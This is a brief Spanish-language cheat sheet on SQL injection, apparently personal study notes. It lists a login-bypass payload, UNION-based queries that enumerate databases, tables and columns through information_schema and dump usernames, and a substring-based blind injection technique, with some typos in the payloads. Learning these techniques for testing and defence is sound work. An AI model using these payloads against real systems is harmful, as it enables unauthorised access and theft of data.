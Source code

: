 # SQL Injection

Categoría: OWAS TOP 10

SQL Injection es una vulnerabilidad donde se logra insertar o manipular sentencias SQL en las consultas que hace la aplicación a la base de datos, normalmente a través de entradas no saneadas. 

```bash
'OR 1=1-- -; -> Vulnera los campos, WHERE devuelve filas aunque la contraseña sea incorrecta, permitiendo acceso
```

```bash
union select 1 -> incorporo lo que quiero 
database() -> obtengo las base de datos
sche,a_name from information_schema.schemata -> obtengo todas las base de datos 
limit -> limito los resultados 
group_concat(schema_name) from informatcion_schema_schemata -> obtengo todo 

Tablas 

group_concat(table_name) from information_schema.tables where table_schema = "Base de datos"

Columnas 

group_concat(column_name) from information_schema.columns where table_schema="Base de datos" and table_name="users"

Datos

group_concat(username) from users
```

SQLI condicional

```bash
select(Select substring(username,1,1) from users where id=1)='a'

El substring obtiene la primera letra, con esto y con un script podremos ir sacando letra por letra en caso de que no lo podramos ver.
```